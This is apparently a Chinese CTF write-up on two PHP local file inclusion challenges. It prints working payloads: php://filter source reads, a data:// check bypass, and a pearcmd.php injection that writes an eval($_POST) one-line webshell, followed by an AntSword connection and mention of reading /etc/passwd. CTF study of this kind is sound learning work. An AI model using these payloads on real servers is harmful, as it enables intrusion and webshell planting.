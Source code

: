 ```yaml
---
title: ctf中的奇淫技巧-利用pearcmd进行LFI漏洞复现
date: 2022-1-12 16:19:21
tags:
---
```

第一题的write up如下:
先放flag

flag{H4v3_fvn_1NcIudE!}
第一题是比较基础的一个题
首先F12查看到html页面信息中包含了提示信息
简单的一个文件包含漏洞，查看url时候发现前面是filename=.....
遂猜测存在文件上传漏洞
于是构建payload如下：
http://39.106.13.193:8010/?filename=include%2Fflag.php&submit=提交查询

没有得到flag
于是想到了php伪协议
php伪协议有关知识点如下：
https://www.cnblogs.com/wjrblogs/p/12285202.html

参考这篇blog
PHP://
1. php://filter
作用：
读取源代码并进行base64编码输出
示例：
http://127.0.0.1/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）

参数说明：
resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流
read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
构建最终的payload得到base64编码下的信息，进行解码后得到flag
http://39.106.13.193:8010/?filename=php://filter/read=convert.base64-encode/resource=include%2Fflag.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2

第二题的write up：
首先flag是flag{1ncLud3_1s_1nt3R3sTiNg}
这个题有点历经千辛万苦了，了解到了文件的各种知识面。
1.check绕过
首先这个题的解题点在php自身的文件里面一个新的可以利用的LFI，这里的话参照p神的一篇文章是
Docker下php的裸文件绕过，blog链接如下
 https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html 

第一个地方就是绕过check变量的检测，这里涉及到了一个函数file_get_contents函数，该函数和file() 一样,只除了 file_get_contents() 把文件读入一个字符串 ，需要让他等于“LFI”这个字符串，这里就需要用到伪协议里面data了，关键知识点如下：
data://
#
作用：
 自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输

上面我发的blog里面有非常详细的关于php伪协议的知识。建议大家看一遍。我学到了很多通过这个blog，确实是我觉得最好的。
构建的payload如下：check=data://check/plain;base64,TEZJ（这里面的TEZJ是base64编码下的”LFI“字符串）。
这里你判断有没有成功绕过的话可以判断有没有执行die函数，如果没有绕过会有一个die"no"执行。

2.Include配合php中的pearcmd
include "a",这里了。
一开始我的想法是通过input://然后传入我想执行的代码来进行cat flag但发现我太天真了.....
首先需要了解一个关于docker下PHP裸文件本地包含漏洞
链接如下
https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

了解完相关知识后，我用的方法是不出网改本地配置的方法，原本想试一试通过本地服务器映射一个远程包含文件漏洞，但是配置出了点问题，所以配置了一下本地的。
这里的话对这个漏洞大致介绍一点：（附上以下blog，解释的十分的清晰）
https://blog.csdn.net/rfrder/article/details/121042290

补充一个知识点： url传参传入php文件是不行的，因为在传入的时候会给你编码导致无法传入，所以用burp改包的方法传入。
这里的话建议和我一样刚入门的师傅可以看一看如何利用burp进行改包发送。熟悉以下burp这个工具的使用，拦截后ctrl+R可以快速发给repeater。
https://blog.csdn.net/jinzhichaoshuiping/article/details/47324955

最后的payload如下:（部分有微小改动，便于大家思考）
?check=data://check/plain;base64,TEZJ&file=....../pearcmd.php&+-c+/tmp/***.php+-d+man_dir=<?eval($_POST[*]);?>+-s+

这里的话pearcmd路径并不是都一样的 有些环境下可能在/share里。
成功传入了我自己的马（在这里有一个方法可以测试是否传入成功，可以直接访问传入路径的传入文件，如果显示出了部分编码代表上传成功，无提示则上传失败）
然后通过antsword进行连接，经典一句话木马，连接成功。在目录下找到了flag
antsword下载地址附上
https://github.com/AntSwordProject/AntSword-Loader

该题也可以通过eval[_get[]]进行传马，因为本人水平有限，写入get失败，希望大佬指点一下利用get写入一句话shell后如何操作。具体思路师傅指点是可以利用里面的值进行执行代码操作。

最后补充一些做题时候意外发现的小技巧吧。如果靶机非动态的话利用伪协议可以阅读到一些你想知道的内容（如果有的话
通过这两个题学到了 远程文件上传（通过远程服务器包含shell），pearcmd LFI漏洞，顺便学习了如何用docker复现环境，当一些关键点卡住的时候可以手动本地搭建环境学习一下。
还有常见的一些目录日志文件，来访问服务器信息比如../../../etc/passwd等，暂时找不到那个博客了，有时间再找一找放上来。

顺便想问一下各位师傅，远程文件包含漏洞如果自己有服务器的话80端口用不了可以通过别的端口来进行包含上传shell么，今天没尝试出来
没错的话应该是第一次拿一血哈哈哈 挺开心
